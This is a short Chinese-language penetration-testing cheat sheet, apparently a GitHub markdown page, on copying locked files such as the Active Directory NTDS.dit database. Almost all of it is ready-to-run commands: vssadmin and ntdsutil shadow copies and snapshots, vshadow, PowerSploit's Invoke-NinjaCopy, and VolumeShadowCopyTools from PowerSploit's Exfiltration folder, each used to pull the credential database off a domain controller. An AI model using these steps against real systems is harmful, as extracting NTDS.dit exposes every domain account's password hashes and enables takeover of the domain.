# 渗透中常用的复制工具

在渗透中经常需要复制像NTDS.dit、mssql数据库文件等关键文件。由于这些文件都被占用，所以不能直接复制。下面介绍几个常用的命令or工具来实现复制。

####  VSSadmin

域环境默认安装。

使用：

- 创建卷影

  `vssadmin create shadow /for=c:`

- 获取当前卷影

  `vssadmin list shadow`

- 从卷影复制文件

  `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\NTDS\ntds.dit c:\ntds.dit`

- 删除卷影

  `vssadmin delete shadows /for=c: /quiet`



#### ntdsutil

域环境默认安装

- 创建快照

  `ntdsutil snapshot "activate instance ntds" create quit quit`

- 挂载快照

  `ntdsutil snapshot "mount {22508acf-8a01-4322-867d-383cf78f59e3}" quit quit`

  快照挂载为 `C:\$SNAP_201912231558_VOLUMEC$\`，copy ntds即可

- 卸载快照

  `ntdsutil snapshot "unmount {22508acf-8a01-4322-867d-383cf78f59e3}" quit quit`

- 删除快照

  `ntdsutil snapshot "delete {22508acf-8a01-4322-867d-383cf78f59e3}" create quit quit`



#### Vshadow

不是系统默认工具，可在Microsoft SDK中获取

- 创建快照

  `vshadow.exe -p -nw C:`

- 获取快照列表

  `vshadow.exe -q` 

- 复制

  `copy Shadow copy device "Name"\windows\NTDS\ntds.dit c:\ntds.dit`

- 删除快照

  `vshadow -ds={ID}`



#### Ninjacopy

ninjacopy是powersploit中的一个powershell脚本直接使用 `Invoke-NinjaCopy -Path <需要复制的文件> -LocalDestination <复制文件保存位置>` 即可复制



#### VolumeShadowCopyTools



属于powersploit的项目，地址[VolumeShadowCopyTools](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/VolumeShadowCopyTools.ps1)，之前遇到上面介绍的方法都不能复制数据库文件，使用这个工具成功复制

- 创建卷影

  `New-VolumeShadowCopy -Volume C:\`

- 列出卷影

  `Get-VolumeShadowCopy`

- 挂载卷影

  `Mount-VolumeShadowCopy -Path C:\Users\public -DevicePath \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`  可直接在挂载点操作了

- 卸载卷影

  `Remove-VolumeShadowCopy -DevicePath \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`

  